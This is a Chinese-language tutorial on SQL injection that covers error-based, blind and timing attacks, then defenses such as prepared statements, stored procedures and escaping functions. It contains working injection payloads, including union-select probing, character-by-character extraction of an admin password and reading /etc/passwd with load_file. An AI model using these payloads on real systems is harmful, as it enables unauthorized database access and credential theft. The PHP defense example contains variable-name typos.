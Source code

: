 # SQL Injection

## 简介

SQL Injection，即SQL注入，是指攻击者利用服务端对用户输入处理的漏洞，输入一些SQL代码，通过闭合引号等手段使服务器将其作为SQL语句而执行，从而造成攻击者对目标数据库的非授权访问，可能产生数据泄露、损毁、篡改等。

## 姿势

### 错误回显注入

如果Web服务器开启了错误回显，通过对输入内容的报错回显可以推理SQL逻辑从而很容易构造Payload。

### 盲注

多数时候Web服务器并不会提供错误的回显，这时候我们需要借用盲注的技巧。

在盲注的情况下，攻击者需要一种手段来确认输入的Payload所产生的影响，而观察页面的变化是最常用的参照，比如以下Payload：

```js
业务URL：http://example.com/news.php?id=10
SQL逻辑：SELECT title, description, body FROM news WHERE id = 10

攻击Payload: ?id=10 and 1=2，造成查询为空，页面可能为空
```

当然以上Payload显示的页面异常也有可能是服务端检测到了非法Payload而做了处理的结果，所以确认注入点还需要后面的步骤。

```js
?id = 10 and 1=1返回页面正常说明确实有问题。
```

### Timing Attack

通过注入一些执行起来花费时间的SQL语句，观察Web请求的响应时间变化也可以判断是否存在SQL注入漏洞。

常用的函数：

MySQL：

```
benchmark(times,function)，benchmark某个函数function times次数
如benchmark(1000000, encode('hello','goodbye'))
sleep(seconds)，休眠seconds秒。
```

举例一个Payload：

```
10 union select if(substring(current,1,1)=char(119),benchmark(5000000,md5(1)) from (select database() as current) as tbl;
```

## 数据库攻击技巧

### 便利函数

database\(\) - 返回当前数据库名。

system\_user\(\) - 返回数据库的系统用户。

current\_user\(\) - 返回当前用户身份。

version\(\) - 数据库版本号。

### 常见技巧

猜解数据库版本：?id = 5 and substring\(@@version,1,1\)=4

判断表是否存在：?id = 5 union all select 1,2,3 from 表名

判断表中某列是否存在：?id = 5 union all select 1,2,列名 from 某表

具体猜解列中数据：?id = 5 and ascii\(substring\(\(select passwd from admin limit 0,1\),1,1\)&gt;64\) **二分法**

读取文件：?id = 5 union select 1,2,load\_file\('/etc/passwd'\) **需要读权限**

写文件：?id = 5 union select ... into outfile '/file' 或者 into dumpfile 'file'，dumpfile相比outfile更适合二进制文件。

### 攻击存储过程

### 编码利用

当数据库使用宽字节编码时，Web语言可能考虑不到，会将双字节字符认为是两个字符，而多数情况下为了安全起见，会开启`magicquotesgpc`或者使用`addslashes()`函数对特殊字符进行转义，比如单引号和双引号。

### 流程

### 防御

#### 使用预编译语句

预编译语句事实上是对变量的一种绑定，举例Java中的预编译：

```java
String custname = request.getParameter("customerName"); // 这里的custname需要好好被检查
// custname的检查
String query = "SELECT account_balance FROM user_data WHERE username = ?";

PreparedStatement pstmt = connection.prepareStatement(query);
pstmt.setString(1,custname);
ResultSet results = pstmt.executeQuery();
```

在`query`中，我们利用`?`替代查询参数，使得攻击者无法改变SQL逻辑，即便是插入了`abc' or '1'='1`尝试闭合引号也只会被当做username的参数执行。再举一个PHP的例子：

```php
$query = "INSERT INTO myCity (Name, CountryCode, District) VALUES (?,?,?)";
$stmt = $mysqli->prepare($qeury);
$stmt->bind_param("sss",$var1,$var2,$var3);
$val1 = 'var1';
$val2 = 'var2';
$val3 = 'var3';
$stmt->execute();
```

通过对输入变量与查询参数的绑定，将特定的输入限制在参数内，不会使得SQL语义产生变化。

#### 使用存储过程

Java中使用存储过程的例子：

```java
String custname = request.getParameter("customerName"); // check please
try{
    CallableStatement cs = connection.prepareCall("{call sp_getAccountBalance(?)}");
    cs.setString(1, custname);
    ResultSet results = cs.executeQuery();
} catch (SQLException se) {
    // log error
}
```

对比预编译语句的使用发现有些类似，不过这里需要预先定义存储过程`sp_getAccountBalance(?)`，然后使用`call`调用存储过程，在进行变量绑定。不过我们还是需要避免在存储过程中使用动态SQL语句，否则也有可能出现SQL注入。

#### 检查数据类型

很多时候SQL查询需要的只是一个数字型的id，所以我们可以通过限制数据类型过滤掉大部分攻击。

#### 使用安全的函数

各种Web语言都会实现一些编码函数，帮助对抗有可能出现的攻击，比如`addslashes()`，`mysql_real_escape_string()`以及`mysql_escape_string()`等等。中间函数考虑到数据库连接的编码，因此相比其他两种比较不可能出现款字节注入漏洞。基本上就是对特殊字符利用反斜杠转义处理。

